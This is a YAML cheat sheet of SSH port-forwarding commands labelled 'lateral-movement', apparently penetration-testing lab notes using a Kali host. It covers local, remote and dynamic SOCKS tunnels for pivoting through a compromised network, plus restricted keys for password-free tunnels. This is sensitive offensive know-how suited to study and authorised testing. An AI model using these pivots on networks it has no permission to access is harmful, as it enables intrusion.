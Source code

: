 ```yaml
---
functions:
  lateral-movement:
    - description: Local SSH port fowarding
      code: |
        Login to 192.168.119.149 with username 'kali' and instruct x.44 to forward all 
        requests to 0.0.0.0:445 and redirect to 172.16.149.5:445
          ssh -f -N -L [bind_address:]port:host:hostport [username@address]
          ssh -f -N -L 0.0.0.0:445:172.16.149.5:445 kali@192.168.119.149
    - description: Remote SSH port fowarding
      code: |
        From the P.O.V of a current access: [you do this]:[I'll do this]
          ssh -f -N -R [bind_address:]port:host:hostport [username@address]
        Login to 192.168.119.149 with username 'kali' and instruct x.149 to listen on 
        0.0.0.0:2221 (you) and bridge that port to access 127.0.0.1:3306 (me)
          ssh -f -N -R 0.0.0.0:2221:127.0.0.1:3306 kali@192.168.119.149
    - description: Dynamic-Local SSH port fowarding
      code: |
        Setup a local socks proxy to forward all traffic to the system you connect
         to (via the new ssh tunnel)

        Create socks proxy on port 8080 and push traffic to 192.168.119.149:
        ssh -N -f -D 127.0.0.1:8080 kali@192.168.119.149
    - description: Dynamic-Remote SSH port fowarding
      code: |
        Setup a remote socks proxy to forward all traffic to the current system 
         to (via the new ssh tunnel)

        Create socks proxy on port 1080 on remote system 192.168.119.149:
        ssh -N -f -R 127.0.0.1:1080 kali@192.168.119.149
    - description: Dynamic-Remote SSH port fowarding (older ssh clients)
      code: |
        Setup a remote socks proxy to forward all traffic to the current system 
         to (via the new ssh tunnel)

        (1) Create remote port forwarding on port 2222 on remote system 192.168.119.149
        and forward to port 8888 of the local system
        (2) Traffic will reach local port 8888 and hit the socks proxy:
        ssh -f -N -R 0.0.0.0:2222:127.0.0.1:8888 kali@192.168.119.149
        ssh -N -D 8888 127.0.0.1
    - description: Create key-pairs to avoid password prompts
      code: |
        1. ssh-keygen ([enter] through all prompts)
        2. copy public key
        3. only allow port forwarding (no key hijack):
        - add to ~/.ssh/authorized_keys
        from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa <pub key>
        4. add private key to system and append "-i <key>" to all ssh commands

---
```

